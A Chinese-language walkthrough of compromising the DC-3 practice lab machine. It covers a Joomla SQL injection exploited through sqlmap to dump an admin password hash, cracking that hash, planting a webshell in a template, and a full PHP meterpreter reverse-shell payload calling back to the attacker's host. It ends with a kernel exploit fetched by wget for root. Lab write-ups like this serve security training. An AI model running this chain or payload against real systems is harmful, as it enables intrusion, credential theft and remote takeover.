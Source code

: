 ## DC-3渗透测试过程

### 主机发现

```
arp-scan -l
```

靶机ip`192.168.56.113`

![image-20240416140034898](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416140034898.png)

就开启了一个80端口，直接去看web页面

### 目录扫描

用`cmseek`扫描到cms的名字和版本

![image-20240416140246803](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416140246803.png)

#### joomscan扫描

```
joomscan -u http://192.168.56.113
```

![image-20240416195152267](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416195152267.png)

### 漏洞发现和利用

![image-20240416140405440](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416140405440.png)

找到该cms的历史漏洞

它的利用方法是

```bash
Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

直接sqlmap扫就行了

爆数据库

```bash
sqlmap -u "http://192.168.56.113/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

爆表名

```bash
sqlmap -u "http://192.168.56.113/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

爆字段

```bash
sqlmap -u "http://192.168.56.113/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --columns -p list[fullordering]
```

查看字段内容

```bash
sqlmap -u "http://192.168.56.113/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump -p list[fullordering]
```

得到用户名和密码

```
+--------+--------------------------------------------------------------+
| name   | password                                                     |
+--------+--------------------------------------------------------------+
| admin  | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
+--------+--------------------------------------------------------------+
```

密码是hash，可以用john爆破试试

```bash
john pass1 --wordlist=/usr/share/wordlists/rockyou.txt
```

得到密码`snoopy`

### 登录web后台

首先就是尝试往文章里写php代码，结果发现是不能执行的

最终在模板这里发现可以添加文件

![image-20240416141539882](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416141539882.png)

我直接在`index.php`里直接写一句话木马

![image-20240416141702059](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416141702059.png)

用蚁剑进行连接，发现这里我写的木马，在`/var/www/html/templates/beez3/index.php`

![image-20240416141929582](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416141929582.png)

本来想直接用nc反弹shell，发现这个`nc`没有-e选项

### 反弹shell

那就用`msf`弹shell吧

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your-IP-Address> LPORT=<Your-Port> -f raw > shell.php
```

利用这条命令生成一个php的稳定shell

```php
/*<?php /**/ error_reporting(0); $ip = '192.168.56.101'; $port = 1234; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

写入1.php

用msf进行监听

```bash
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 1234
run
```

![image-20240416144534503](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416144534503.png)

输入shell即可得到一个shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

得到一个伪终端

### 提权

利用辅助脚本发现提权漏洞

```
下载地址：https://github.com/mzet-/linux-exploit-suggester
```

![image-20240416145927351](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416145927351.png)

查看内核版本和系统版本

```bash
uname -a
lsb_release -a
```

`Ubuntu 16.04 4.4.0`

找到这个提权漏洞

![image-20240416200938317](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416200938317.png)

按照文档步骤即可

拷贝到tmp目录下

```
wget http://192.168.56.101/exploit.tar
```

解压

```
tar xf exploit.tar
```

```
./compile.sh 编译
./doubleput
```

即可提权成功

![image-20240416201208816](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416201208816.png)

## 总结

> 1.joomla这个cms的漏洞比较多，可以用专门的工具`joomscan`进行扫描
>
> 2.msf的反弹shell是比较稳定的shell，不能用nc或bash，可以用msf
>
> 3.因为这是老靶机，所以系统内核会漏洞，直接找别人的exp打就行了

